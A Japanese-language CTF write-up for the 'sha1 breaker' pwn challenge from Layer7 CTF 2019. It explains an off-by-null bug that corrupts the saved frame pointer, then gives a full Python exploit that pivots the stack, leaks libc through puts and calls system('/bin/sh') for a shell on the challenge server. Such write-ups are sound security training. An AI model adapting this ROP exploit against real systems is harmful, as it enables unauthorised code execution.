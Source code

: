 # [pwn 1000pts] sha1 breaker - Layer7 CTF 2019
64ビットでPIEとSSPは無効です。
```
$ checksec -f sha1breaker
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No      0               5       sha1breaker
```
ランダムなバイト列のsha1を生成するか、それが特定のハッシュと衝突しているかのチェックしかできません。一見脆弱性はありませんが、sprintfでバッファを作っている際にカウンタが100以上だとoff-by-nullの脆弱性があります。off-by-nullによりsaved rbpを書き換えられるので、運が良ければreadintで書き込んだ最大0x20バイトのバッファにrspを移すことができます。
0x18バイトではシェルが取れないのですが、IDAでは表示されないreadline的な関数があるので、それを利用します。最初の`push rbp; mov rbp, rsp;`あたりを飛ばせば`leave; ret;`でrspを移せるので、2nd ROP chainに以降できます。
```python
from ptrlib import *
import os
import time

rop_pop_rdi = 0x00400ec3
rop_pop_rbp = 0x00400998
hidden_function = 0x400abd

libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
elf = ELF("./sha1breaker")

os.system("sudo dmesg -C")
while True:
    #sock = Process("./sha1breaker")
    sock = Socket("bincat.kr", 30420)
    
    #for i in range(0x64):
    #    sock.sendafter(">> ", "1" + "\xff" * 0x1f)
    sock.send(("1" + "\xff" * 0x1f) * 0x64)
    for i in range(0x64):
        sock.recvuntil(">> ")
    payload  = p64(elf.section('.bss') + 0x410)
    payload += p64(rop_pop_rdi)
    payload += p64(elf.section('.bss') + 0x418)
    payload += p64(hidden_function)
    payload += p64(rop_pop_rdi)
    payload += p64(elf.got("puts"))
    payload += p64(elf.plt("puts"))
    payload += p64(rop_pop_rbp)
    payload += p64(elf.section('.bss') + 0x800)
    payload += p64(rop_pop_rdi)
    payload += p64(elf.section('.bss') + 0x808)
    payload += p64(hidden_function)
    sock.sendafter(">> ", payload)
    r = sock.recvline(timeout=1)
    if r is None or r == b'' or r == b'Menu':
        sock.close()
        continue
    if len(r) >= 20:
        sock.close()
        continue

    # libc leak
    libc_base = u64(r) - libc.symbol("puts")
    if libc_base >= 1 << 64:
        sock.close()
        continue
    logger.info("libc_base = " + hex(libc_base))
    
    # get the shell!
    payload  = p64(rop_pop_rdi + 1) # align rsp
    payload += p64(rop_pop_rdi)
    payload += p64(libc_base + next(libc.find("/bin/sh")))
    payload += p64(libc_base + libc.symbol("system"))
    sock.send(payload)
    
    sock.interactive()
    exit(0)
```

# 感想
良い感じのoff-by-null問ですね。
